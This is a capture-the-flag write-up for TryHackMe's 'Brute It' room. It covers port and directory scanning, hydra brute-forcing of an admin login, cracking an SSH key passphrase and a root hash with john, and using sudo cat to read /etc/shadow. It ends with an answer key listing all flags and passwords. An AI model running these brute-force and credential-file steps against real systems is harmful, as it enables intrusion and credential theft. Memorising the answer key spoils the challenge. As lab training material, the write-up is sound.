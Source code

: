 
# Brute It - TryHackMe Writeup

This is a writeup for the "Brute It" challenge on TryHackMe, you can find it [here](https://tryhackme.com/room/bruteit)

---

## Steps

### 1. Initial Reconnaissance
- Scanned the target with `nmap`:
  ```bash
  nmap -A -sV -p- [VICTIM IP]
  ```
- Example:
  ```bash
  nmap -A -sV -p- 10.10.100.244
  ```
- Flags explained:
  - `-A`: Aggressive scan (OS detection, version detection, scripts, traceroute).
  - `-sV`: Detect service versions.
  - `-p-`: Scan all 65,535 ports.
- Results:
  ```
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux)
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  ```
- Open ports: `2`
- SSH version: `OpenSSH 7.6p1`
- Apache version: `2.4.29`
- Linux distribution: `Ubuntu` (guessed).

### 2. Web Enumeration
- Ran `gobuster` with extensions:
  ```bash
  gobuster dir -u http://[VICTIM IP] -w [WORDLIST PATH] -x .php,.txt
  ```
- Example:
  ```bash
  gobuster dir -u http://10.10.100.244 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt
  ```
- Flags explained:
  - `dir`: Directory enumeration mode.
  - `-u`: Target URL.
  - `-w`: Wordlist path.
  - `-x .php,.txt`: Check for `.php` and `.txt` files.
- Results:
  ```
  /admin         (Status: 301)
  ```
- Hidden directory: `/admin`
- Enumerated `/admin` further:
  ```bash
  gobuster dir -u http://[VICTIM IP]/admin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt
  ```
- Results:
  ```
  /index.php     (Status: 200)
  /panel         (Status: 301)
  ```

### 3. Brute-Force Admin Panel
- Inspected `http://[VICTIM IP]/admin/index.php` source code, found username `admin`.
- Attempted `hydra` :
  ```bash
  hydra -l admin -P [WORDLIST PATH] [VICTIM IP] http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:invalid"
  ```
- Example:
  ```bash
  hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.100.244 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:invalid"
  ```
- Flags explained:
  - `-l`: Single username (`admin`).
  - `-P`: Password wordlist.
  - `http-post-form`: Attack type.
  - `"/admin/index.php:user=^USER^&pass=^PASS^:invalid"`: Form URL, parameters, and failure string.
- Output:
  ```
  [80][http-post-form] host: 10.10.100.244   login: admin   password: xavier
  ```
- Credentials: `admin:xavier`
- Logged in at `http://[VICTIM IP]/admin/index.php`, found:
  - Web flag: `THM{brut3_f0rce_is_e4sy}`
  - RSA private key (saved as `key.pem` with 'nano').

### 4. Crack RSA Key
- Converted RSA key to hash:
  ```bash
  /opt/john/ssh2john.py key.pem > rsa_hash.txt
  ```
- Cracked it with `john`:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt rsa_hash.txt
  ```
- Flags explained:
  - `--wordlist`: Password list.
- Output:
  ```
  rockinroll       (key.pem)
  ```
- Passphrase: `rockinroll`

### 5. Gain SSH Access
- Set key permissions:
  ```bash
  chmod 400 key.pem
  ```
- Attempted SSH without key (mistake):
  ```bash
  ssh john@[VICTIM IP]
  ```
- Failed with password prompts.
- Used the key:
  ```bash
  ssh -i key.pem john@[VICTIM IP]
  ```
- Example:
  ```bash
  ssh -i key.pem john@10.10.100.244
  ```
- Entered passphrase `rockinroll` logged in as `john`.

### 6. Find User Flag
- Checked home directory:
  ```bash
  pwd
  ls
  ```
- Output: `/home/john`, `user.txt`
- Read it:
  ```bash
  cat user.txt
  ```
- Content: `THM{a_password_is_not_a_barrier}`

### 7. Privilege Escalation
- Checked `sudo` privileges:
  ```bash
  sudo -l
  ```
- Output:
  ```
  User john may run the following commands on bruteit:
      (root) NOPASSWD: /bin/cat
  ```
- Used `/bin/cat` from [here](https://gtfobins.github.io/gtfobins/cat/):
  - Read `/etc/shadow`:
    ```bash
    LFILE=/etc/shadow
    sudo cat "$LFILE"
    ```
  - Extracted root hash:
    ```
    root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:...
    ```
- Saved and cracked it:
  ```bash
  echo 'root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:' > hash.txt
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  ```
- Output:
  ```
  football         (root)
  ```
- Root password: `football`
- Considered cracking John’s password but it took too long, so i skipped it.

### 8. Find Root Flag
- Guessed `root.txt` location with `sudo cat`:
  ```bash
  sudo cat /root/root.txt
  ```
- Content: `THM{pr1v1l3g3_3sc4l4t10n}`

---

## Answers to Challenge Questions
1. **How many ports are open?**: `2`
2. **SSH version**: `OpenSSH 7.6p1`
3. **Apache version**: `2.4.29`
4. **Linux distribution**: `Ubuntu`
5. **Hidden directory**: `/admin`
6. **Admin panel user:password**: `admin:xavier`
7. **John’s RSA key passphrase**: `rockinroll`
8. **user.txt**: `THM{a_password_is_not_a_barrier}`
9. **Web flag**: `THM{brut3_f0rce_is_e4sy}`
10. **Root password**: `football`
11. **root.txt**: `THM{pr1v1l3g3_3sc4l4t10n}`

---

## Tools Used
- `nmap`: Port and service scanning.
- `gobuster`: Directory enumeration.
- `hydra`: HTTP form brute-forcing.
- `ssh2john.py` & `john`: RSA key and hash cracking.
- `ssh`: Remote access.

---

## Lessons Learned
- Source code can leak usernames or hints.
- RSA keys need proper permissions (`chmod 400`).
- `sudo cat` with `NOPASSWD` can read sensitive files like `/etc/shadow`.

---
